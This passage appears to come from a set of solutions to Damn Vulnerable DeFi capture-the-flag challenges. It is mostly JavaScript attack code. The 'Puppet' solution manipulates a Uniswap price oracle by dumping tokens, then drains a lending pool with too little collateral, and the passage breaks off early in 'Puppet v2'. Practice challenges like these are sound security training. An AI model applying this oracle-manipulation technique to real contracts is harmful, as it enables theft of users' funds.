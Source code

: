 ``` JS
// Cover the tracks by setting price to initial value
await setNewPrice(INITIAL_NFT_PRICE);
```

### [Puppet](https://www.damnvulnerabledefi.xyz/challenges/8.html)
``` JS
// Calculations are perfomed off-chain to avoid costs and trail in blockchain

// Helper function for calls to contract
let priceForNTokens = async n => await this.uniswapExchange.getTokenToEthInputPrice(
	ethers.utils.parseEther(''+n),
	{ gasLimit: 1e6 }
);

// For calculations tokens are provided in 1 ether = 10**18 wei
const poolTokensInEth = POOL_INITIAL_TOKEN_BALANCE/10**18;

// Calculation of collateral after tokens dump to exchange
let calculatePoolCollateral = (dumpedTokensInEth, tokensValue) =>
(UNISWAP_INITIAL_ETH_RESERVE-tokensValue)/dumpedTokensInEth*poolTokensInEth*2; // wei / eth * wei = wei

// Variables definition
let dumpTokens;
let collateral = ATTACKER_INITIAL_ETH_BALANCE;
let tokensValue;

// Estimating optimal amount of tokens to dump, purpose is maximal possible token ownership
for(dumpTokens=1;collateral>=ATTACKER_INITIAL_ETH_BALANCE;dumpTokens++){
	tokensValue = await priceForNTokens(dumpTokens);
	collateral = calculatePoolCollateral(dumpTokens, tokensValue);
}

let dumpTokensWei = ethers.utils.parseEther(dumpTokens+1+"")

// Performing transactions - they could be performed as one in contract constructor
await this.token.connect(attacker).approve(
	this.uniswapExchange.address,
	dumpTokensWei);

// Dumping tokens
collateral = BigInt(collateral); // necessary to avoid overflow on 3rd tx

await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
	dumpTokensWei,
	tokensValue,
	Date.now() + 3600000// 1 hour from now
);

// Borrow all tokens
await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE,{value:collateral});
```
### [Puppet v2](https://www.damnvulnerabledefi.xyz/challenges/9.html)
``` JS
let attacker99Percent = async () => (await ethers.provider.getBalance(attacker.address)).toBigInt() / 100n * 99n;
// Approve transfer
await this.token.connect(attacker).approve(
	this.uniswapRouter.address,
	await this.token.balanceOf(attacker.address)
)
```